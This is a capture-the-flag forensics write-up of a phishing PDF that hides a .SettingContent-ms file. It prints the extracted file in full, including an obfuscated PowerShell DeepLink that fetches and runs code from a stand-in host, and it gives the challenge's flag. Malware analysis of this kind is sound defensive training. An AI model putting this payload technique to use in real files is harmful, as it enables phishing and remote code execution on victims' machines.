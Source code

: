 # PhishinImpossible

### Description:
* The team at the IMF SOC caught a wave of malicious emails coming in trying to phish our leadership. It seems like they are trying tricks in PDFs straight out of 2018. It seems like most of the users have updated PDF readers, so the document didn't execute. We're cleaning up the computers of people who did open the doc. All that's left is to dig into the attachment and find what it was trying to do. Take a look, and see if you can find the flag.

### Objective:
* Find flag in malicious Powershell inside PDF document.

### Difficulty:
* Easy

### Flag:
* `HTB{th1s_m3sS@gE_w1ll_s3lf_d3StRuC7}`

### Release:
* [forensics_phishinimpossible.zip](release/forensics_phishinimpossible.zip)

### Challenge:

Opening the document in most modern PDF readers just returns the message:

> This PDF document embeds file topsecret.SettingContent-ms

I'll make use of several tools from the [Didier Stevens Suite]() for this analysis. Running `pdfid` shows a couple suspicious things: 

```
$ pdfid PhishinImpossible.pdf 
PDFiD 0.2.7 PhishinImpossible.pdf
 PDF Header: %PDF-1.1
 obj                    9
 endobj                 9
 stream                 2
 endstream              2
 xref                   1
 trailer                1
 startxref              1
 /Page                  1
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              0
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   0                                                                                                                                                                                                                  
 /Colors > 2^24         0   
```

There's an `/OpenAction`, which will try to make something happen just on opening the document. This is commonly used in Phishing attacks.

There's also the `/EmbeddedFile`, which is likely what was referenced by Reader on opening the file.

`pdf-parser` will show the details about the object containing the `/EmbeddedFile`:

```
$ pdf-parser -t /EmbeddedFile PhishinImpossible.pdf 
This program has not been tested with this version of Python (3.9.1)
Should you encounter problems, please use Python version 3.8.7
obj 8 0
 Type: /EmbeddedFile
 Referencing: 
 Contains stream

  <<
    /Length 565
    /Filter /FlateDecode
    /Type /EmbeddedFile
  >>
```

I'll dump that object to a file with `-d`. I'll also need `-f` to manage the `/Filter /FlateDecode` to decompress the stream:

```
$ pdf-parser -t /EmbeddedFile PhishinImpossible.pdf -d embedded_file -f
...[snip]...
```

This outputs the file, which is a `.SettingContent-ms` file:

```
$ cat embedded_file 
<?xml version="1.0" encoding="UTF-8"?>
<PCSettings>
  <SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent">
    <ApplicationInformation>
      <AppID>windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel</AppID>
      <DeepLink>%windir%\system32\cmd.exe /c pow^ers^He^l^l.exe -nO^p -w hid^den -c $I=new-object net.webclient;$flag="HTB{th1s_m3";$I.proxy=[Net.Webrequest]::GetSystemWebProxy();$flag=$flag+"sS@gE_w1ll_s3lf";$I.Proxy.Credentials=[Net.CredentialsCache]::DefaultCredentials;$flag=$flag+"_d3StRuC7}";IEX $.downloadstring('http://evil.htb/home');</DeepLink>
      <Icon>%windir%\system32\control.exe</Icon>
    </ApplicationInformation>
    <SettingIdentity>
      <PageID></PageID>
      <HostID>{12B1697E-D3A0-4DBC-B568-CCF64A3F934D}</HostID>
    </SettingIdentity>
    <SettingInformation>
      <Description>@shell32.dll,-4161</Description>
      <Keywords>@shell32.dll,-4161</Keywords>
    </SettingInformation>
  </SearchableContent>
</PCSettings>
```

The `<DeepLink>` tag marks the code that will run. There's some minor obfuscation, but basically simple PowerShell that contains a `$flag` variable that's built over three parts.

### References:

- https://www.trendmicro.com/en_us/research/18/j/settingcontent-ms-can-be-abused-to-drop-complex-deeplink-and-icon-based-payload.html
- https://twitter.com/infosecn1nja/status/1021399595899731968
- https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d391
